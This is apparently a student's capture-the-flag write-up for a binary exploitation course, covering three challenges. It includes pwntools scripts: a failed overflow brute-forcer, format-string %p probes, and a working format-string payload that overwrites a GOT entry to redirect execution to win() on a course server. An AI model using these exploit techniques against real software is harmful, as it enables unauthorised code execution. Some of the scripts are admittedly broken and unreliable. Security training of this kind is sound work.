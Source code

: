 # z5214048

door
=========================== 
Flag: no luck

General overview of problems faced 
------------------------------------- 
Had to hack the program 
1. Put through to IDA
* s and s2 are 200h = 512 bytes apart. if &s(1) = 3, &s2 = 515
* Magic word: APES
2. What blocks the way at "0xffc0b40f"? 9447 ASCII!
3. Dump stack a few times and try to see patterns:
* All other stack entries are past &s2 (i.e. higher than its address), let alone s1
4. Try a simple overflow attack on s1 against s2 (use s1 to overflow s2) -> pipe breaks (why?)
5.  Try replacing the test + jump instructions in the main func to nop's -> Nothing happens (what am I doing wrong?)
6. What can I then hypothetically change with format string vuln? 

* Search "APES" (41504553) in stack dumps -> none
* Search "9447" -> Kinda? There are addresses in stack of ".0x3900252e.0x373434.(nil).". p32'ed string of 9447
7. Try automatic tools to change leaked addr -> Still no luck
```
		# 9447 --(reverse)--> 7449 --(hex)--> 0x37343439
		# APES --(r)--> SEPA -(h)-> 0x53455041
		payload = fmtstr_payload(k, {int(addr,16)-512: 0x53455041}, 1, 'byte')
```

(pretty sure I messed up my code somewhere, that's why)

Script/Command used 
------------------ 
``` 
#!/usr/bin/python3

from pwn import *

import time


PROGRAM_NAME = "door"
ENCODING = "ascii"
MAGIC = "APES".encode(ENCODING) # why not apples, as per cli?

def io_beg():
	return process("./door")
	#remote('plzpwn.me', 2000)
	#process('./jump')	
	
def io_rdy(x):
	return x.recvuntil("Speak the phrase APplES and I shall open:".encode(ENCODING), timeout = 3).decode(ENCODING)

# my 6443 graveyard function
def toHexCustom(dec): 
	return str(hex(dec).split('x')[-1])	

def main():	
	fin = 0
	stage = 0
	
	while(fin < 1):
		if(stage == 0):
			k = 0
			notfound = 1
			while(notfound):
				io = io_beg()						
				
				io.recvuntil("A landslide has blocked the way at".encode(ENCODING))
				peculiar_addr = io.recvline().decode(ENCODING).strip()
				peculiar_addr_int = int(peculiar_addr, 16)
				
				io_rdy(io)
				buf = toHexCustom(peculiar_addr_int)
				print("peculiar addr: "+buf)
				payload = b'\x90'*k+MAGIC
				
				io.send_raw(b'\x90'*100)
				#io.send_raw(payload) #deploy
				io.sendline(b'') #fire
				
				io.recvuntil("The magical letters begin to shimmer and morph.".encode(ENCODING))
				inbound = io.recvall(timeout = 0.5).decode(ENCODING)
				
				print(inbound)
				
				if(inbound.find("This doesn't satisy the door") != -1):
					print("[bad][k =  "+str(k)+"]")
					k = k + 1
				elif(inbound.find("How did you get") != -1):
					print("[gud][k =  "+str(k)+"]")
					notfound = 0
				else:
					print("[idk][k =  "+str(k)+"]")
					
			io.interactive()
			stage = stage + 1
				
		else:
			print("I think I'm done :)")
			fin = 1

if __name__ == '__main__':
	main()
```

snake
=========================== 
Flag: (I don't get it)

General overview of problems faced 
------------------------------------- 
Had to hack the program 
1. IDA F5:
* s at +0 | v1 at 64h = 100 decimal
* uses fgets for passwd (arrgh), but gets for get_name()
2. Try "%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p" as name - seg fault
2.1 Try trunkating it slightly, the program accepts it, but so what?
3. Ok whatever. With name changed enter "passwd" with len between 50h and 99. I used "%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p"Get "error printing flag at ...". It's great, sure, but I cannot output the flag itself, since I input and output different variables. I can hypothetically overwrite the "flag" address that is always printed after passwd, but that doesn't change anything, given the program doesn't try to access that address's value

formatrix
=======================
Flag: COMP6447{i_r8_th15_m0vie_4/12}

General overview of problems faced 
------------------------------------- 
Had to hack the program 
0. Find the variable in stack you control
1. Find a win() func entrypoint
2. Find a function in the global offset table to substitute, and replace it with win()
3. Craft a format string payload to do so, deploy it and here goes

PY3 Format string generator function is BR0KEN!!

Script/Command used 
------------------ 
Python 2!
```
#!/usr/bin/python2

from pwn import *

ENCODING = "ascii"

def main():	
	io = connect('plzpwn.me', 4002)
	payload = fmtstr_payload(3, {0x08049C18:0x08048536},0,'byte')
	print("pay: ["+payload+"]")
	io.recvuntil("You say:")
	io.sendline(payload)
	io.interactive()



if __name__ == '__main__':
	main()
```


